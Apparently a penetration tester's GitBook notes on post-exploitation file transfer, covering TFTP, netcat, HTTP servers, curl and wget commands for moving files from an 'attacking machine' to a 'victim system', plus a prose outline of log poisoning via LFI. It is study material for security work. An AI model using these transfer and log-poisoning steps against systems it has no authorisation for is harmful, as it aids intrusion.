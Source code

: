```yaml
---
description: >-
  I have a problem  with remembering information that is very specific. So I
  have created a list of file transfer methods. I have not made any distinction
  of either windows or Linux.
---
```


# 6. File Transfer

Link : [https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts\#file-transfers](https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts#file-transfers)

Link : [https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/](https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/)

## Methods of file transfer

* **Non-interactive Shells.**
  * once it is executed, it does not require more input from the user in order to complete.
  * Once the command is executed, the shell automatically ends the connection.
* **Interactive Shells.**
  * remember how we used to interact SMTP server using command line.
    * we had to specify subject, email address, body, etc for mail.
    * Once we have sent the mail successfully we type "bye" to exit the SMTP connection.
  * Hence, to close the connection here we have to give a keyword which tells the server to terminate the connection.
* **Using Scripting languages.**
  * \(script\) like using VBscripts, a simple HTTP downloader using VBScript. On the server end we just need to serve file on our web server.
  * \(script\) like using Powershell, a simple HTTP downloader using powershell.
  * \(executable\) like using debug.exe to create a code a simple downloader. Compiling the code using debug.exe. Then running this executable to download the file to victim system.
* **Using logs method.**
  * Remember how all services running in victim system has a log file which tells us the timeline and the different activities that service has performed.
  * Similarly, if we have port open for that service, so the attacker could query the port. Similarly lets say the attacker queried port 80.
  * Then he needs to send some text which the server understands to get a valid response. 
  * But if user sends malicious code script. As it is an invalid request the script will not be executed, but still the complete script message is present in web server log files.
  * So if the website is vulnerable to LFI vulnerability, we could give path of web-server log files in this, and in this way our malicious code will be executed.

![Interactive Shell](../.gitbook/assets/image%20%2883%29.png)

![Non-Interactive Shell](../.gitbook/assets/image%20%2873%29.png)

## List of different ways for transferring a file

1. File Transfer protocols
   1. FTP
   2. SFTP
   3. TFTP
   4. SCP
2. Using HTTP Protocol
3. Using file download method
   1. BITSAdmin \(windows, client only\)
   2. PowerShell \(windows, client only\)
   3. VBS HTTP
   4. Perl HTTP
   5. CERTUTIL
   6. base64
   7. curl \(client only\)
   8. wget \(client only\)
4. Tools
   1. HFS tool - file transfer across different platforms.
   2. Using Meterpreter
5. Using PHP file server

## Using FTP

### FTP server side

*  We first need to create a FTP server on our attacking machine.
* Then we need to copy the respective file to be sent to the victim system on the root folder of the ftp server.
* We then need to create a user using which we will transfer the files.

### FTP Client side

*  There are two method to use ftp client to download files, first is the default interactive shell. Another is we try to make this interactive shell non interactive by creating a text file with all the inputs written in it. The ftp client could then use the file directly instead of interactive inputs from user.

## Using TFTP

{% tabs %}
{% tab title="Linux TFTP Server" %}
```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
```
{% endtab %}

{% tab title="Windows TFTP Client" %}
```text
tftp -i 192.168.1.1 get file.txt #where 192.168.1.1 is the IP address of the TFTP server
```
{% endtab %}
{% endtabs %}

## Using Netcat

It is a simple netcat file transfer command

{% tabs %}
{% tab title="Sender side" %}
```text
nc 172.18.39.103 5000 < file.txt
```
{% endtab %}

{% tab title="Receiver side" %}
```text
nc -lvp 5000
```
{% endtab %}
{% endtabs %}

## Using file Download method

To transfer file using Download method, first we need to **set up a web server**.

{% tabs %}
{% tab title="python" %}
```text
python -m SimpleHTTPServer 8000
```
{% endtab %}

{% tab title="apache2" %}
```text
service apache2 start
cp file.txt /var/www/html/
```
{% endtab %}
{% endtabs %}

### Using curl

{% tabs %}
{% tab title="curl file transfer method" %}
```text
curl -O http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

### Using wget

{% tabs %}
{% tab title="wget file transfer method" %}
```text
wget http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

## Using PHP file server

{% tabs %}
{% tab title="Server side" %}
```text
php -S 0.0.0.0:80
```
{% endtab %}

{% tab title="Client side" %}
> You could use any file download method to download file.
{% endtab %}
{% endtabs %}

![](../.gitbook/assets/image-13.png)

![](../.gitbook/assets/image-39.png)

